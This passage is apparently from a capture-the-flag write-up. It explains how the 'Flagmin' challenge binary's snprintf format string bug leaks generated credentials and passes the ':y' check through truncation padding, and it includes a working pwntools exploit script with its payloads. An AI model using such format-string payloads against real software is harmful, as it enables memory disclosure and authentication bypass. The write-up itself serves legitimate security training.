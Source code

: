 ```py


if __name__ == "__main__":
    main()
```

---

<h1 id="flagmin">Flagmin</h1>

This challenge is also a format string challenge using `snprintf`. The binary
checks if the parsed format string contains a "username-password" pair that was
randomly generated, then checks if the string ends with ":y".

The generated pairs are stored in the heap. We can use %s to get a
username:password pair since there are addresses on the stack pointing to the
generated strings. 

Since the binary appends :n to the end of our string, we need to somehow get
rid of it. `snprintf` takes an integer argument to indicate how many characters
to write to the output string. Extra characters after 0x80 are truncated, hence
we can use %c to push :n out of the string and put :y just before it.

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./flagmin_patched")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43040)

    return p


def main():
    p = conn()

    # good luck pwning :)
    p.sendline(b"%8$s")
    p.sendline(b"%16$s:%91c:y")

    p.interactive()


if __name__ == "__main__":
    main()
```

---